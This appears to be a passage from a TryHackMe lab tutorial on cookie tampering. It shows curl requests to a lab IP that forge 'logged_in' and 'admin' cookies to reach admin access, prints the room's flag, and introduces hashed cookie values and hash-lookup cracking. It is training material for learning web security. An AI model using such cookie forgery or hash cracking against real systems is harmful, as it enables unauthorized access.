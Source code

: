 First, we'll start just by requesting the target page:

```telnet
                Curl Request 1

user@tryhackme$ curl http://10.10.163.208/cookie-test
```

We can see we are returned a message of: Not Logged In

Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:

```telnet
                Curl Request 2

user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.163.208/cookie-test
```

We are given the message: Logged In As A User

Finally, we'll send one last request setting both the logged_in and admin cookie to true:

```telnet
                Curl Request 3

user@tryhackme$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.163.208/cookie-test
```

This returns the result: Logged In As An Admin as well as a flag which you can use to answer question one.

```bash
curl http://10.10.163.208/cookie-test
Not Logged In
curl -H "Cookie: logged_in=true; admin=false" http://10.10.163.208/cookie-test
Logged In As A User
curl -H "Cookie: logged_in=true; admin=true" http://10.10.163.208/cookie-test
Logged In As An Admin - THM{COOKIE_TAMPERING}
```

##### Hashing

Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text. Here are some examples that you may come across:

| Original String | Hash Method | Output                                                                                                                           |
|-----------------|-------------|----------------------------------------------------------------------------------------------------------------------------------|
| 1               | md5         | c4ca4238a0b923820dcc509a6f75849b                                                                                                 |
| 1               | sha-256     | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b                                                                 |
| 1               | sha-512     | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
| 1               | sha1        | 356a192b7913b04c54574d18c28d46e6395428ab                                                                                         |


You can see from the above table that the hash output from the same input string can significantly differ depending on the hash method in use. Even though the hash is irreversible, the same output is produced every time, which is helpful for us as services such as https://crackstation.net/ keep databases of billions of hashes and their original strings.
